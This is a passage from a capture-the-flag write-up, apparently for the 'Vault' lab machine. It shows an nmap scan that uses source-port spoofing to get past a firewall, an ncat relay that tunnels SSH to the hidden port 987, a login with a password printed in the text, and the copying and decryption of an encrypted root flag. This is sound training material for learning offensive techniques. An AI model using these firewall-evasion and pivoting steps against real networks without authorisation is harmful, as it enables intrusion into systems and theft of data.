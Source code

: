 By using the 4444 as a source port we can bypass the firewall and find another open port:

```
root@DNS:~# nmap -g 4444 -sS -P0 -p 1-1000 192.168.5.2

Starting Nmap 7.01 ( https://nmap.org ) at 2018-11-04 04:16 GMT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for Vault (192.168.5.2)
Host is up (0.0023s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE
987/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.84 seconds
```

We'll need to SSH in by changing the source port of the TCP socket. To do that we can spawn a ncat listener that redirects to port 987 while changing the source port. Then we just SSH to ourselves on the ncat listening port.

```
root@DNS:~# ncat -l 2222 --sh-exec "ncat 192.168.5.2 987 -p 4444"
```

```
root@DNS:~# ssh -p 2222 dave@127.0.0.1  (password = dav3gerous567)

Last login: Mon Sep  3 16:48:00 2018
dave@vault:~$ id
uid=1001(dave) gid=1001(dave) groups=1001(dave)

vault:~$ ls
root.txt.gpg
```

The only thing interesting is the `root.txt.gpg`

We can download this back to the host OS and decrypt it with the `itscominghome` key we found earlier:

```
root@DNS:/var/www/html# ncat -l 2222 --sh-exec "ncat 192.168.5.2 987 -p 4444"

dave@ubuntu:~$ scp -P 2222 dave@192.168.122.4:~/root.txt.gpg .
dave@192.168.122.4's password: 
root.txt.gpg                                                          100%  629     0.6KB/s   00:00
```

```
dave@ubuntu:~$ gpg -d root.txt.gpg

You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
      "david <dave@david.com>"
ca468...
```